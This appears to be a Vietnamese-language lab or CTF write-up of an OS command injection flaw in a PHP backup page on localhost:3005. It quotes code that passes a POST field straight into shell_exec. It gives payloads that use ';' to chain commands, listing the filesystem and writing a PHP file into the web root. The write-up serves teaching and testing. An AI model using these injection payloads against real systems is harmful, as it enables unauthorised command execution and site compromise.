



# OS Command Injection localhost:3005
### 1. Tổng quan
lv5 là website cho phép người dùng thực hiện backup 

### 2. Phạm vi
### 3. Lỗ hổng
#### Description
localhost:3005 cho phép thực hiện backup
#### Impact
Kẻ xấu có thể chạy lệnh OS
#### Root-cause analysis

Trong mã nguồn `/src/index.php`, biến `$target` không được validate mà truyền thẳng vào hàm `shell_exec` dẫn tới việc kẻ xấu có thể thực thi câu lệnh OS

    $target = $_POST['target'];
        switch($command) {
			case "backup":
				$result = shell_exec("timeout 3 zip /tmp/$target -r /var/www/html/index.php 2>&1");

Trong mã nguồn `docker-compose.yml`, anh dev đã cấu hình Networks nên server không thể kết nối ra ngoài Internet 

    level04:
    build: ./cmdi_level4
    container_name: 'cmdi_level04'
    restart: 'unless-stopped'
    ports:
      - "3004:80"
    volumes: 
      - ./cmdi_level4/src/:/var/www/html/

Nhưng trong config của Dockerfile, lại cho phép người dùng có thể upload file bất kì vào **Document ROOT**

    RUN chmod g+w /var/www/html/

#### Step to reproduce

1. Dừng câu lệnh ban đầu bằng dấu `;` sau đó chèn lệnh OS của mình

Payload: `abc;ls -la / > /var/www/html/test.txt;`

Payload: `abc;echo '<?php phpinfo() ?>' > /var/www/html/test.php;`

